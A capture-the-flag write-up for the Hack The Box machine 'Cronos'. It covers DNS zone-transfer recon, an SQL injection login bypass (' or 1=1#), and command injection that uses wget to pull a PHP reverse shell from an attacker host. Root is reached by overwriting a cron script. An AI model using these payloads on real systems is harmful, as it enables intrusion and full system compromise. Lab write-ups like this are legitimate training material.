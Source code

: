 # Cronos

## Summary

**Vulnerability Exploited:** Multiple vulnerabilities in admin.cronos.htb console (SQLi, RCE)

**Vulnerability Explanation****:** The login page for the admin console is vulnerable to SQL injection, so attackers may bypass authentication. Within the console, improper sanitization of user input allows attackers to execute arbitrary code through Net Tool v0.1.

**Privilege Escalation Vulnerability:** /var/www/laravel/artisan script executed as cronjob by root is owned by www-data

## Penetration

We begin with a port scan using nmap.

![](screenshots/nmap-tcp.png)

If we attempt to access http://\<victim ip\>, we will find nothing at all but the Apache2 Ubuntu default page ("It works!")

![](screenshots/default-homepage.png)

Let's turn our attention to DNS (port 53) to see if we can find more interesting web content. We can discover information about the domain using nslookup.

![](screenshots/nslookup.png)

We find the name ns1.cronos.htb. We can learn more about the cronos.htb domain by using the host command to perform a zone transfer.

![](screenshots/dns-axfr.png)

The name admin.cronos.htb stands out. We can append "\<victim ip\> admin.cronos.htb" to our /etc/hosts file and navigate to admin.cronos.htb in our browser.

![](screenshots/admin-login.png)

We find a login page for an admin console. Luckily, the login has a SQL injection vulnerability, so we can bypass authentication with the username **' or 1=1#** and no password.

Inside the console, we find a tool for executing traceroute. The tool takes user input and expects an IPv4 address. However, the tool does not properly sanitize user input, so we can execute arbitrary bash commands by submitting an IPv4 address followed by a semicolon and the command we wish to run.

![](screenshots/net-tool-whoami.png)

We can host Pentest Monkey's php reverse shell on our own webserver and download it to the victim server using the input **8.8.8.8; wget http://\<attacker ip\>/shell.php**.

![](screenshots/host-shell.png)

We launch the shell by navigating to admin.cronos.htb/shell.php

![](screenshots/www-proof.png)

Now we need to find a privilege escalation vulnerability. We find what we are looking for in /etc/crontab.

![](screenshots/crontab.png)

The last job in the table runs as root, but it executes a script owned by www-data. We can replace the original script with another copy of shell.php (after changing the listening port).

![](screenshots/artisan-shell.png)

After a minute, the cronjob trips our shell, and we have root.

![](screenshots/root-proof.png)